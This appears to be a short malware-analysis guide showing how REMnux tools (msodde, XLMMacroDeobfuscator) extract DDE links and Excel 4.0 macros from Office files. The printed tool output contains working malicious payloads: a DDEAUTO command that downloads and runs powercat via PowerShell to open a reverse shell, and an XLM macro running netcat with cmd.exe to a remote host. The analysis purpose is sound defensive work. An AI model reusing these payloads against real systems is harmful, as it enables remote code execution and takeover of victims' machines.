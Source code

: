 # DDE attack
Use **msodde** to detect and extract DDE/DDEAUTO links from MS Office documents, RTF and CSV

    remnux@remnux:~/Desktop$ msodde DDE-attack.docx 
    msodde 0.55 - http://decalage.info/python/oletools
    THIS IS WORK IN PROGRESS - Check updates regularly!
    Please report any issue at https://github.com/decalage2/oletools/issues
    
    Opening file: DDE-attack.docx
    DDE Links:
     DDEAUTO c:\\windows\\system32\\cmd.exe "/k powershell -c IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.5.128/powercat.ps1');powercat -c 192.168.5.128 -p 1111 -e cmd

# Excel 4.0 macros
**XLMMacroDeobfuscator** can be used to extract or decode obfuscated XLM macros (also known as Excel 4.0 macros)

Extract: `xlmdeobfuscator -f Book1.xlsm -x`

Extract, emulate and deobfuscate: `xlmdeobfuscator -f Book1.xlsm`

```
remnux@remnux:~/Desktop$ xlmdeobfuscator -f excel4macro.xls 
pywin32 is not installed (only is required if you want to use MS Excel)

|\     /|( \      (       )
( \   / )| (      | () () |
 \ (_) / | |      | || || |
  ) _ (  | |      | |(_)| |
 / ( ) \ | |      | |   | |
( /   \ )| (____/\| )   ( |
|/     \|(_______/|/     \|
   ______   _______  _______  ______   _______           _______  _______  _______ _________ _______  _______
  (  __  \ (  ____ \(  ___  )(  ___ \ (  ____ \|\     /|(  ____ \(  ____ \(  ___  )\__   __/(  ___  )(  ____ )
  | (  \  )| (    \/| (   ) || (   ) )| (    \/| )   ( || (    \/| (    \/| (   ) |   ) (   | (   ) || (    )|
  | |   ) || (__    | |   | || (__/ / | (__    | |   | || (_____ | |      | (___) |   | |   | |   | || (____)|
  | |   | ||  __)   | |   | ||  __ (  |  __)   | |   | |(_____  )| |      |  ___  |   | |   | |   | ||     __)
  | |   ) || (      | |   | || (  \ \ | (      | |   | |      ) || |      | (   ) |   | |   | |   | || (\ (
  | (__/  )| (____/\| (___) || )___) )| )      | (___) |/\____) || (____/\| )   ( |   | |   | (___) || ) \ \__
  (______/ (_______/(_______)|/ \___/ |/       (_______)\_______)(_______/|/     \|   )_(   (_______)|/   \__/


XLMMacroDeobfuscator(v 0.1.4) - https://github.com/DissectMalware/XLMMacroDeobfuscator

File: /home/remnux/Desktop/excel4macro.xls

Unencrypted xls file

[Loading Cells]
[Starting Deobfuscation]
There is no entry point, please specify a cell address to start
Example: Sheet1!A1
Macro1!A1
CELL:A1, PartialEvaluation   , EXEC("nc -nv 192.168.5.128 1111 -e cmd.exe")
CELL:A2, PartialEvaluation   , RETURN()
```